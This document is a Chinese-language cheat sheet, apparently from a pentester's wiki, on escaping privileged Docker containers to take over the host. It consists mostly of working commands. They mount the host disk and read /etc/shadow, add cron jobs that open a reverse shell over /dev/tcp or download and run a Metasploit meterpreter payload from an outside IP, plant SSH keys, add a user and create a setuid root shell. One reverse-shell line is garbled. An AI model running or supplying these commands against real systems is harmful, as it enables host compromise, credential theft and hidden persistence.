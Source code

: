 ## 文章

[TWiKi](http://127.0.0.1:7777/CloudNative/)

https://wiki.teamssix.com/CloudNative/Docker/container-escape-check.html

https://zhuanlan.zhihu.com/p/90100140

## Privileged 特权模式容器逃逸

挂载磁盘

```bash
fdisk -l
mkdir /test && mount /dev/sda1 /test
cat /test/etc/shadow
```

写计划任务, 反弹shell

```bash
touch /test/tmp/test.sh

chmod +x /test/tmp/test.sh

ls -ll /test/tmp/test.sh

echo "#!/bin/bash" >> /test/tmp/test.sh

echo "/bin/bash -i >& bash -i >& /dev/tcp/192.168.43.130/9090 0>&1"  >> /test/tmp/test.sh

sed -i '$a*/2 *   * * *   root  bash /tmp/test.sh ' /test/etc/crontab

cat /test/etc/crontab
```

配合msf写计划任务2

```bash
use exploit/multi/script/web_delivery
set target 6    # 选择目标系统
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.1.7
set lport 4444
exploit

echo '*/1 * * * * wget -qO NQW1y7kP --no-check-certificate http://192.168.10.58:8080/EQF1163sH; chmod +x NQW1y7kP; ./NQW1y7kP& disown' >> /var/spool/cron/crontabs/root # Ubuntu计划任务目录
```

写 ssh 公钥

```bash
ssh-keygen -f hello
chmod 600 hello #赋予权限

cp -avx /hello/home/ubuntu/.ssh/id_rsa.pub /hello/home/ubuntu/.ssh/authorized_keys #-avx是将权限也一起复制

echo > /hello/home/ubuntu/.ssh/authorized_keys #清空authorized_keys文件

echo '生成的.pub文件的内容' > /hello/home/ubuntu/.ssh/authorized_keys #将ssh秘钥写入authorized_keys文件

cat /hello/home/ubuntu/.ssh/authorized_keys #查看是否写入成功

ssh -i hello ubuntu@192.168.52.20
```



加个用户，再给个suid shell

```bash
chroot /mnt adduser john
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
/tmp/shell -p
```

